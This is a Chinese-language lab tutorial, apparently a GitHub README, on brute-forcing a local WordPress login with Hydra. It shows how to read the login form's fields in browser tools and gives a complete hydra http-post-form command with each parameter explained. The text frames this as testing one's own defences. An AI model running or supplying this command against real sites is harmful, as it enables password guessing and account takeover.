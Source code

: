 # Hydra 暴力破解 Wordpress             

## 前言:                  
以下講解暴力破解主要是要測試防護功能所使用的，並非要特意教導大家去破解他人帳號密碼，請勿在公開網站使用暴力破解。               

以下會講解如何編寫hydra指令                   
會先講解用                     
1. 網頁的開發人員工具查看網頁訊息                      
2. burp suite來擷取封包                   

以上方法使用一個就可以了，主要了解其網頁訊息就可以了                         

## 建立好wordpress

首先，建立wordpress，server IP 為192.168.56.2，              
作者帳號為smallan                     

<p align="center">
  <img width="750" src="image/0.PNG">
</p>

嘗試用smallan登入，查看錯誤訊息                

<p align="center">
  <img width="750" src="image/1.PNG">
</p>

## 1.使用開發人員工具來查看網頁訊息

按下F12，查看網路狀態                      

<p align="center">
  <img width="750" src="image/2.PNG">
</p>

可以看到回傳訊息方式為POST                     

<p align="center">
  <img width="750" src="image/3.PNG">
</p>

往下拉查看Form Data，可以看到帳號的名稱為log，密碼為pwd，等等..                    

<p align="center">
  <img width="750" src="image/4.PNG">
</p>

有以上這些訊息就可以嘗試暴力破解                   
```
hydra -l smallan -P pwdtxt -V 192.168.56.2 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submt=Log In&testcookie=1:incorrect"
```
```
-l 後輸入要測試的帳號
-P 後輸入要測試的密碼檔
-V 測試的結果詳細列出
192.168.56.2 <server IP>或可以輸入網頁名稱
http-post-form 表單傳輸形式為POST
/wp-login.php 網頁名稱
log=^USER^    帳號
pwd=^PASS^   密碼
wp-submt=Log In&testcookie=1  後綴訊息
incorrect   登入錯誤訊息
```